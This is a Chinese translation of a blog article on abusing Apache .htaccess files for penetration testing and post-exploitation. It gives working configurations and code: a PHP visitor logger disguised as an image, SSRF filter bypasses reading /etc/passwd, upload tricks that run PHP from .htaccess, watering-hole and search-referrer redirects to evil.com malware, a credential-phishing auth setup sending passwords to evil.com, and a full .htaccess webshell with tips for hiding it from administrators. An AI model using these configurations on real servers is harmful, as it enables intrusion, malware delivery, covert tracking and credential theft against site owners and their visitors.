

原文 by [看雪学院](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458286843&idx=1&sn=15e3d1aa8ae418cc5ed6010b390388b6&chksm=b1814a7186f6c367a24033a297edc3fe2275334f45fd0b944bb606dc449e027beb1b4bc6997d&scene=0#rd)  

这是关于使用htaccess进行开发的两部分系列的第一部分。我将在这里介绍一些基本的、众所周知的方法，还有一些鲜为人知的方法。在第2部分中，我将通过使用htaccess来开发更高级的开发方法。  
 
在本指南中，我将尝试解释.htaccess的各种非常规用法，这些用法对于渗透测试和后渗透攻击非常有用。我假设大多数读者会对.htaccess有所了解，但是对于那些不了解的人我会提供一个简短的解释。不管你对htaccess规则是否熟悉，我都希望这些内容很容易被大家掌握。    
 
我将要介绍的内容中有一些方法有点过时了，但是其中很多依旧在使用着，并且即使是过时的方法，当攻击者在攻击一台没有对软件及时更新的机器，也是可以成功利用的。  
 
对于那些不熟悉.htaccess的人，这里是一个简短的解释（来自htmlgoodies.com，）：  

htaccess是超文本访问（Hypertext Access）的缩写，是一个基于Apache的Web服务器使用的配置文件，用于控制它所在的目录以及该目录下的所有子目录。  

很多时候，如果你已经安装了内容管理系统（CMS），比如Drupal，Joomla或者Wordpress，你可能会遇到.htaccess文件。 一般来说你不需要编辑它，但这个文件是你上传到Web服务器的文件之一。  

.htaccess文件的主要功能包括使用密码保护文件夹，禁止或允许用户使用IP地址访问，禁止目录浏览，将用户自动重定向到另一个页面或目录，创建和使用自定义错误页面，改变具有特定扩展名的文件的使用方式，或者通过指定文件扩展名或特定文件作为主页。  
 
简而言之，这是一套包含在您的网络服务器上的规则（在一个名为.htaccess的文件中），它允许您执行诸如使用密码保护目录或为扩展创建别名等选项，例如，如果您有一个页面 `http://site.com/something/file.php` 你可以设置一个htaccess的规则，以便当页面加载时，将使用户`http://site.com/something/file` （隐藏扩展名） - 或者你 可以使用它来做一些像302重定向一个页面到另一个或HTTP 403的目录。    

下面是一个htaccess文件的例子：  
```
### MAIN DEFAULTS
Options +ExecCGI -Indexes
DirectoryIndex index.html index.htm index.php
DefaultLanguage en-US
AddDefaultCharset UTF-8
ServerSignature Off
```
有趣的是，你需要在所有.htaccess文件中添加ServerSignature Off指令，因为这样的话可以阻止在目录列表上显示你的服务器信息（这使得攻击者的侦察阶段会有非常明显的提示）。所以说，这个时候最好通过你的httpd.conf来完成对web服务的控制，而不是你的htaccess文件。    
 
我将主要关注的重点放在.htaccess（mod_rewrite）中的apache的重写模块，这个模块允许重定向发生。 那么，我们开始吧。   


## 用连续的弹出窗口骚扰互联网用户

我将要讨论的第一种方法是如何在他们试图利用的站点上滥用mod_rewrites来连续弹出窗口。  
 
这是一个非常简单的方法，您可以将图像上传到服务器，然后使用htaccess文件来利用密码保护目录，并将该图像重定向到该密码保护的目录中的文件。 除了.htaccess之外，还需要一个.htpasswd文件，它将包含密码保护目录的登录凭证。  
 
这个方法只是一个有趣的，没有任何实际价值，但我曾经看到它在以前的流行论坛上被利用，它是非常有效的。  
 
为了演示这个例子，我们假设我们有两个文件，lol.jpg和umad.jpg，其中lol.jpg存储在一个公共目录中，umad.jpg存储在一个受密码保护的目录中。  
 
这里对应的.htaccess文件应该是类似与这样：  
```
Options +FollowSymlinks
RewriteEngine on
RewriteRule lol.jpg /protected-directory/umad.jpg [NC]
AuthUserFile /home/usr/.htpasswd
AuthName “r u mad tho”
AuthType Basic
require user lolololololol
```
除此之外，您还需要设置一个如下所示的.htpasswd文件：  

`username:encryptedPass`  

在这个实例中的用户名需要匹配你添加到你的.htaccess文件的用户名。至于加密的密码，这是通过PHP的crypt（）函数生成的。如果您不想使用PHP，则还可以使用联机生成器来加密.htpasswd文件中的密码值。  
 
然后你可以在论坛上设置路径为lol.jpg作为你的签名，每次有人查看你的线程，或者每当你在一个线程中发帖时，都会在屏幕上反复弹出，提示输入用户名/ 密码，可以让人非常讨厌。 当然这里也不一定是一个论坛。 如果你在任何形式的网站上有自定义头像或个人资料图片的选项，那么您也可以使用这种方法（假设它允许您从远程URL设置您的个人资料图像，而不仅仅是通过文件上传 形式） 。  

任何浏览器渲染你的图像后，将被密码提示框反复弹窗。 这种利用方式可以用于像论坛签名，个人资料头像，或几乎所有的带图像上传功能，允许用户从远程URL抓取图像的网站。  


### 不与用户交互的情况下识别浏览器指纹和记录IP地址 

这种方法也是利用重定向的技巧，它可以让你在用户不知情的情况下跟踪人们的IP地址（或者通过执行PHP代码来完成任何你可以做的事情）。这将允许您以隐身方式执行浏览器指纹识别，通常目标完全发现不了。  
 
这个例子又是一个简单的mod重写，唯一的区别是我们在这里重定向到一个PHP文件，而不是密码保护目录：  
```
Options +FollowSymlinks
RewriteEngine on
RewriteRule lol.jpg /path/to/evil.php [NC]
```
假设攻击者在其服务器上有两个文件，lol.jpg是一个完全无害的图像文件，evil.php是一个用于信息收集的PHP脚本。  
 
现在，这里的利用思路是欺骗服务器认为已经包含了有效的图像。从服务器的角度来看，它向图片文件发出请求。当它重定向到PHP脚本时，没有看到有效的图像，所以服务器通常不会在页面上包含图像（所以不会执行PHP）。  
 
然而，我们可以使用PHP动态图像欺骗服务器，让服务器认为它包括lol.jpg而不是邪恶.php - 我们可以让PHP脚本输出一个图像，它也会运行任何恶意代码（在这个例子中是记录IP地址）。这可以通过imagecreate（）函数来实现，这里是一个例子：  
``` php
<?php
$log = 'log.htm';
$ip = $_SERVER['REMOTE_ADDR'];
$page = $_SERVER['REQUEST_URI'];
$refer = $_SERVER['HTTP_REFERER'];
$date_time = date("l j F Y  g:ia", time() - date("Z")) ;
$agent = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen("log.htm", "a");
    fputs($fp, "<b>$date_time</b><br>
                <b>IP: </b>$ip<br>
                <b>Page: </b>$page<br>
                <b>Refer: </b>$refer<br>
                <b>Useragent:</b>$agent <br><br>");
    flock($fp, 3);
    fclose($fp);
    $my_img = imagecreate( 200, 80 );
    $background = imagecolorallocate( $my_img, 255, 0, 255 );
    $text_colour = imagecolorallocate( $my_img, 200, 200, 0 );
    $line_colour = imagecolorallocate( $my_img, 128, 255, 0 );
 
    imagestring( $my_img, 4, 30, 25, "Totally an innocent image", $text_colour );
    imagesetthickness ( $my_img, 5 );
    imageline( $my_img, 30, 45, 165, 45, $line_colour );
    header( "Content-type: image/png" );
    imagepng( $my_img );
    imagecolordeallocate( $line_color );
    imagecolordeallocate( $text_color );
    imagecolordeallocate( $background );
    imagedestroy( $my_img );
?>
```

因为`$ _SERVER ['HTTP_USER_AGENT'];` 是可以由用户控制的输入，所以这种使用.htm扩展记录收集到的信息会让你受到XSS注入攻击，我使用这个格式主要是用于格式化的目的。 如果它让你感到困惑，那么只需将.htm扩展名变成.txt  
 
在上面的例子中，一旦图像在用户浏览器中被渲染，它将把用户的网络代理，IP地址，引用者头部和用于指纹识别的其他有用信息写入攻击者服务器上的文件。 这将允许攻击者获取关于用户位置的信息，甚至可以制作量身定制的有效载荷以攻击用户的浏览器。  
 
因此，如果有一个网站，允许你使用远程URL设置你的个人资料图像，那么你可以包括lol.jpg作为你的头像，然后利用htaccess重定向到PHP脚本，同时输出一个图像。欺骗服务器，使其讲evil.php当做lol.jpg，最终包含图像作为您的个人资料图片，同时执行任何其他的PHP代码，与它一起运行（在这种情况下记录的IP地址和用户代理 任何人查看您的个人资料）。 当然除了使用重写规则之外，还可以使用AddType来达到相同的效果.  


## 绕过WEB漏洞的过滤规则

对于基于Web的漏洞，htaccess有几个用于绕过过滤的用法。 我将在本文中讨论的两个攻击向量是服务器端请求伪造和任意文件上传。  


### 服务器端请求伪造

对于那些不熟悉SSRF的人来说，它允许您使用各种URI方案来查看本地资源，而不是请求远程资源，例如，像 `http://example.com/vuln.php?url=http：//somesite.com` ，那么你可以把'?url ='这里的GET参数改成localhost来探测关于特定端口上运行的服务的信息，例如：
`http://127.0.0.1:3306`  
这将暴露关于在有漏洞的服务器上运行的MySQL守护进程的信息  

`file:/etc/passwd`  
这将允许攻击者通过SSRF实现本地文件泄露，从而允许他们读取本地系统文件的内容。  
 
一般来说，大多数安全的网站都会有过滤器来防止SSRF发生。 SSRF有许多旁路方法，但我将专注于只允许输入为远程资源或有效（或看似有效）URL的上下文。 因此，假设攻击者在尝试重定向到localhost、127.0.0.1、0.0.0.0或file：//时将被列入黑名单，那么他们可以使用htaccess设置mod_rewrite，如下所示：  
```
Options +FollowSymlinks
RewriteEngine on
RewriteRule lol.jpg http://127.0.0.1:3306 [NC]
```
或读取本地文件：  
```
Options +FollowSymlinks
RewriteEngine on
RewriteRule lol.jpg file:/etc/passwd [NC]
```
当然，这个技术也可以用来实现RCE，假设目标服务器上存在脆弱的服务，如sftp，gopher，memcached或类似的东西。  
 
这可能会绕过任何黑名单，因为您可以添加 `http://example.com/lol.jpg` 作为易受攻击的脚本的输入，然后易受攻击的脚本可以请求`http://127.0.0.1:3306` 或`file：/etc/passwd` 。在原始请求`http://example.com/lol.jpg` 之后 - 导致SSRF被利用并且绕过过滤器（在本例中获取了MySQL版本或输出passwd）  
 
不过在有很多情况下，这种方式是行不通的，但是我之前用它成功的进行过很多测试。  


### 任意文件上传

除了在SSRF中使用，在某些情况下.htaccess也可以被滥用于任意文件上传。假设一个情景，一个易受攻击的网站有一个基于黑名单过滤器的文件上传表单（阻止诸如.php或.phtml的特定扩展名），那么在某些情况下，可以上传一个.htaccess文件， 导致不同程度的后果。  
 
htaccess有一个默认的拒绝规则，防止它通过互联网访问。 如果攻击者有能力覆盖htaccess，他们需要做的第一件事就是禁用拒绝规则，以便通过定位到相关的URL路径来访问它，为此，攻击者将上传一个htaccess文件，该文件的内容类似于如下：  
```
<Files ~ "^\.ht">
# overriding deny rule
# making htaccess accessible from the internet
 Require all granted
 Order allow,deny
 Allow from all
</Files>
```
现在这意味着攻击者只需导航到URL（`http://site.com/.htaccess` ）即可自由查看htaccess。如果攻击者有能力覆盖正在使用的当前.htaccess文件，并用自己的替换，那么这将允许他们在服务器上执行各种攻击，从应用程序级的DoS到全面的远程命令执行。 这是否工作依赖于哪个apache模块被启用。 如果启用了mod_info和mod_status等模块，则攻击者可以分别执行信息泄露和远程命令执行。  
 
一旦攻击者重写了网站的原始htaccess文件并禁用了默认的拒绝规则，他们就可以通过将以下行添加到自定义的htaccess文件来执行远程命令：
`AddType application/x-httpd-php .htaccess `   

这将使服务器将htaccess文件视为PHP脚本，并与上述方法配合，以覆盖易受攻击的服务器原始htaccess文件，然后攻击者可以导航到存储htaccess文件的URL，以便执行 PHP代码。 攻击者制作的有效载荷将以htaccess文件中的注释形式出现，例如：  
```
AddType application/x-httpd-php .htaccess
# <?php echo "get pwned"; ?>
```
当然，这不仅限于PHP。你可以使用相同的方法来生成一个JSP脚本文件或类似的东西（全部取决于在服务器上运行的是哪种技术） - 为了做到这一点，我们需要改变AddType的值以符合所希望的代码执行。  
 
如果出于某种原因，即使禁用拒绝规则（例如，由于HTTP守护进程或CMS特定配置文件的外部配置），也不允许访问htaccess，攻击者可以改用AddType设置一个更“无辜的”文件，如将一个JPG视为一个PHP文件。然后，可以在JPG图像中包含一些恶意PHP代码，上传图像，并导航到图像存储路径，以便执行代码。  
 
如果攻击者利用Windows 8.3（SFN）文件名惯例的过时系统，则有可能规避基于黑名单的过滤器，该过滤器正在停止上传名为“htaccess”的文件。 .htaccess的简称可以用在这种情况下。一个攻击者可以上传一个名为“HTACCE〜1”的文件，如果8.3文件名惯例正在使用，那么这将等于上传一个名为“.htaccess”的文件 - 假设这些文件名惯例正在使用中（现在不太常见），这可以用于绕过基于签名的过滤器和用于文件上传功能的黑名单。  


## 水坑攻击以及利用恶意软件感染大量用户

如果攻击者设法攻击一个网站并且具有有限的（非根）访问权限，但是仍然能够对htaccess进行修改，那么这可以使用方法进行渗透利用。我将要介绍的第一个例子是攻击者可以修改htaccess来作为一个实际的水坑攻击。 
 
如果攻击者有一个他们想要的攻击的特定目标，他们知道该 用户的IP地址，以及用户经常浏览的网站，如果攻击者有能力编辑或覆盖htaccess文件的受害者经常访问的网站，就可以发动水坑攻击（通过部分访问或通过任意文件上传的方式覆盖当前htaccess文件的能力）。  

让我们假设攻击者有一个目标，并知道他们的IP地址是151.121.2.69，他们经常访问一个名为example.com的网站 - 如果攻击者发现一个方法来覆盖example.com的htaccess文件，那么他们可以像这样设置一个htaccess规则：  
```
RewriteCond %{REMOTE_ADDR} ^151\.\121\.2\.69$
RewriteCond %{REQUEST_URI} !/GetHacked.php
RewriteRule .*\.(htm|html|php)$ /GetHacked.php [R,L]
```
通过上面的例子，任何访问example.com的普通用户都可以正常浏览网站。如果受害者访问example.com，他们将被重定向到GetHacked.php（当然实际上比这个更加隐蔽，这里只是一个例子）。  

一般来说，受害者将被重定向到的页面看起来与他们打算在设计方面连接到的站点完全相同（并且将具有相同的域名），但是他们将被重定向到网站上单独的，独特的页面，然后这个网站会提供恶意软件，hook用户的浏览器，或者通过零日漏洞利用他们的浏览器。  

如果一切顺利，受害者完全不会意识到任何异常事情的发生。他们将像往常一样继续浏览网站，不知道他们已经成为水坑攻击的受害者。如果计划得当，这可能会导致一个高度复杂的，有针对性的对某人的袭击，并且用户完全不知道发生了什么事情。  
 
虽然我刚刚描述的方法是针对特定受害者的有针对性的漏洞攻击，也可以通过一系列的重写规则，向网站的用户群提供恶意软件。这通常是通过检查引用者头部来查看用户来自哪个站点，并基于此将其重定向到恶意软件来实现的。  

通常，想要传播恶意软件的攻击者可以获取一个受欢迎的网站的权限，然后为htaccess创建一些重写规则，从而使任何来自流行搜索引擎访问该网站的人都被重定向到恶意软件或浏览器漏洞利用。这可以这样实现：  
```
RewriteEngine On
RewriteCond %{HTTP_REFERER} .*google.* [OR]
RewriteCond %{HTTP_REFERER} .*ask.* [OR]
RewriteCond %{HTTP_REFERER} .*bing.* [OR]
RewriteCond %{HTTP_REFERER} .*aol.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*duckduckgo.* [OR]
RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]
RewriteCond %{HTTP_REFERER} .*baidu.*
RewriteRule ^(.*)$ http://evil.com/malware.ext [R=301,L]
```
恶意黑客除了攻击网站并修改易受攻击的网站的htaccess文件以传播恶意软件或构建僵尸网络之外，此技术的另一个常见应用是将流量推送到支付流量的网站。如果一个黑客想侵入一些流行的网站并修改他们的htaccess文件来设置重定向规则，那么他们可以使得从搜索引擎到达的所有访问者都被重定向到黑客选择的站点。  

这是在黑客社区赚钱的一种流行方式，因为许多网站将流量推送到他们的域名，黑客通过修改排名靠前的Alexa或Google PR排名的网站的htaccess文件的方式，将大量的流量转换成高额的报酬。  
 
另外需要注意的是，通过在你自己的网站上使用htaccess规则，也可以作为一个防御机制。例如，想象一下你目前正在运营一个网站，并且您知道在线黑客论坛的用户正在尝试定位您的网站，那么你可以设置htaccess规则，以便任何从恶意网站直接进入您网站的人都被重定向到恶意软件，并在有机会造成任何损害之前先行反击。如果你知道来自evil-site.com的人正试图定位你的网站，那么你可以设置一个htaccess规则，如下所示：  
```
RewriteEngine On
RewriteCond %{HTTP_REFERER} .*evil-site.com
RewriteRule ^(.*)$ http://hack-the-hackers.com/malware.ext [R=301,L]
```
除了上述用恶意软件感染站点用户的方法之外，通过使用错误页面也可以实现类似的事情。 您可以添加htaccess规则，以便在触发常见的HTTP状态码错误时将用户重定向到恶意软件：  
```
ErrorDocument 403 http://evil.com/payload.php
ErrorDocument 404 http://evil.com/payload.php
ErrorDocument 500 http://evil.com/payload.php
```

### 通过htaccess进行信息泄露

通过htaccess文件有两种主要的信息泄露形式。 一种需要访问受感染的服务器，另一种不需要。  
 
由于服务器配置错误或缺少默认的拒绝规则，有时htaccess文件可以被任何人读取。 进行渗透测试时，检查htaccess是否可读是非常有用的（10次中有9次不会），所以你可以看到哪些重写规则以及其他限制或设置。 你会惊讶的发现信息可以被泄露，你会惊讶于你会经常遇到不能正确配置他们的服务器或HTTP 403的htaccess文件。 
 
谷歌索引的大多数网站都有可读的.htaccess文件，搜索 filetype:htaccess    

检查你是否可以在正在执行审核的网站上对.htaccess文件进行读操作是十分有用的。 要执行此操作，只需导航到你正在测试的网站上的以下URL：
`http://example.com/.htaccess`  

通常情况下，你将收到一个HTTP 403响应，但在某些情况下，你将有权限读取.htaccess 。还值得指出的是，该文件可能并不一定是被命名为.htaccess，有几个常见的变化需要注意：  
```
OLD.htaccess
1.htaccess
dot.htaccess
backup.htaccess
_.htaccess
-.htaccess
```
除此之外，htaccess将成为特定CMS内的文本文件（一些例子是Joomla和OpenCart） - 所以根据服务器运行的CMS，有时候检查htaccess.txt是否可读十分有必要。 这里是一个例子（在Joomla安装）：  
`http://www.nationalcrimeagency.gov.uk/htaccess.txt`  
  

 
通过.htaccess进行信息泄露的第二个版本便是在攻击者对服务器的访问受限的情况下进行的。 我们假设他们不能编辑文件或执行其他操作，但是他们可以编辑.htaccess（或者通过任意文件上传的方式来替换htaccess）。  

除了绕过诸如PHP安全模式和产生shell之类的限制之外，它还可以用于在服务器上泄露信息以便进一步帮助攻击。 假设系统调用被禁用，并且滥用htaccess修改php.ini（以启用系统调用）的方法不起作用，那么信息泄露可能是攻击者的下一个行动过程。
 
假设你可以通过一个恶意的htaccess文件来执行PHP代码，那么通过PHP的功能就可以使用明显的信息泄露手段。 假设你没有执行系统调用的能力，但仍然可以执行PHP，那么最明显的信息披露形式就是通过使用phpinfo函数。 您将首先覆盖如前所述的拒绝规则，然后您将导航到htaccess所在的URL以显示phpinfo（显示你的PHP版本，内核版本和其他有用的信息）：  
```
AddType application/x-httpd-php .htaccess
# <?php phpinfo(); ?>
```
另一种可能性（尽管sysadmin很容易检测到）是，您可以更改服务器端脚本的内容类型，从而允许攻击者读取PHP文件的源代码。这意味着他们将有能力在网站上执行源代码审计，使他们有可能发现更多的漏洞：  
```
<FilesMatch "\.ph.*$">
 SetHandler text/plain
 AddType text/plain .php
</FilesMatch>
```
如果攻击者的目标是隐藏自己，那么这可能不是最好的选择。这可以通过将AddType text/plain filename.php设置为他们希望查看源代码的特定文件的名称，从而达到隐蔽的目的。一次只做一个文件会大大降低系统管理员检测到某些事情发生的机会（如果他们网站上的每个页面泄露其源代码供任何人看到，那么他们就会明显感觉到错误）。  

假设攻击者具有有限的访问权限，并且缺少对PHP文件的读取权限，那么这可能是非常有价值的，因为这将使他们找到更多的关键漏洞，最终使他们能够提升权限并获得更高的访问级别。  
 
还可以通过使用SetHandler指令和将以下几行添加到恶意htaccess文件中，从而披露 server-status和server-info：  
```
SetHandler server-status
SetHandler server-info
```
这将泄漏关于服务器的有用信息，以及连接到服务器的所有用户的IP地址。 根据在目标网站上运行的技术，SetHandler还可以用于披露其他类型的信息（例如，有关LDAP配置的信息或诸如caucho-status之类的信息 - 这不会太常见，因为java servlet实际上总是通过Tomcat内的Apache而不是Resin来处理，但Tomcat和其他技术也有相应的功能）。  
 
描述的用于执行浏览器指纹识别和IP记录用户的方法也可用于信息泄露。 PHP动态镜像可以与托管在你自己的服务器上的htaccess文件结合使用，然后攻击者可以将URL输入到目标服务器上某处的映像，从而导致目标服务器请求镜像和返回的目标服务器的IP地址写入攻击者服务器上的日志文件。 这可以用来绕过像Cloudflare这样的服务，以便揭示服务器的真实IP地址。  


### 通过网上钓鱼获取登录凭据

攻击者可以通过几种不同的方式使用htaccess来获取登录凭据和对用户实施钓鱼。 我在这里讨论的方法是通过使用ErrorDocument进行鱼叉式钓鱼 - 除了能够通过使用自定义错误文档来提供恶意软件外，还可以使用HTML / CSS / JS创建文档，这意味着某些人可以轻松创建iframe 网络钓鱼来获取证书，这就像：  
`ErrorDocument 403 <YourHtmlCode>`  

当用户到达403页（或者攻击者选择设置的任何HTTP状态码）时，他们可以通过使用iframe或document.write() 来创建假登录页面，诱骗用户的凭证。  
 
另一种通过在受损站点上修改htaccess来进行网络钓鱼的方法是通过用户名/密码框提示用户，然后将输入的凭证发送到由攻击者控制的远程服务器，这里是由wireghoul 创建的htaccess文件，便做到这一点：
```  
＃此文件将提示用户输入用户名和密码以明文形式（http basic auth）将证书发送到您的服务器  
＃你将需要编辑这个文件并创建一个脚本来收集服务器上的凭据  
AuthType Basic
AuthName “”
AuthRemoteServer evil.com
AuthRemotePort 80
AuthRemoteURL /phish/
require valid-user
＃您的脚本需要返回相应的401或200 OK响应代码到mod_auth_remote模块。
```
在这个博客系列的第2部分中，我将解释一些利用htaccess的独特和复杂的网络钓鱼方法，这几乎是无法察觉的。  


### 使用htaccess来产生一个shell

如果攻击者对他们试图锁定的服务器的访问权限有限，或者是一个允许他们覆盖当前存在的htaccess文件的漏洞，那么可以使用前面描述的方法将htaccess变成一个基于web的HTTP GET shell。有时即使攻击者已经拥有对服务器的shell访问权限，但是为了维护对其原始shell的访问权限，防止被检测和删除，他们可能需要向htaccess添加额外的shell。  

下面是一个功能齐全的产生shell的htaccess文件的例子：  
```
＃htaccess后门shell
＃这是比较典型的webshell相对隐身
＃覆盖拒绝规则，使htaccess可以从互联网上访问，没有这个，你会得到一个HTTP 403
<Files ~ "^\.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>
＃使服务器将.htaccess文件作为.php文件
AddType application/x-httpd-php .htaccess
# <?php system($_GET[‘hax’]); ?>
＃要执行您将导航到的命令：
# http://vulnerable.com/.htaccess?hax=YourCommand
＃如果system不能使用，然后尝试其他系统调用，例如passthru(); shell_exec();等等
＃如果你仍然不能执行系统调用，请尝试通过htaccess绕过php.ini
```
一般来说，如果攻击者使用htaccess作为维护shell访问受感染站点的手段，那么他们会在htaccess文件中添加某种形式的填充/空格或附加（无害）指令，使其长度更长，以至于系统管理员可能会注意到他们的htaccess文件中存在的任何可疑的PHP代码。对于更加隐蔽的htaccess shell，我建议将非字母数字组合放入您的PHP代码中（我将在即将发布的博客文章中介绍有关维护访问受损服务器方法的非字母数字主题）。  
 
另外，对于在PHP不可用的情况下可以在htaccess中使用的各种形式的shell的完整列表，我强烈建议查看wireghoul的"[htshells](https://github.com/wireghoul/htshells)"存储库。  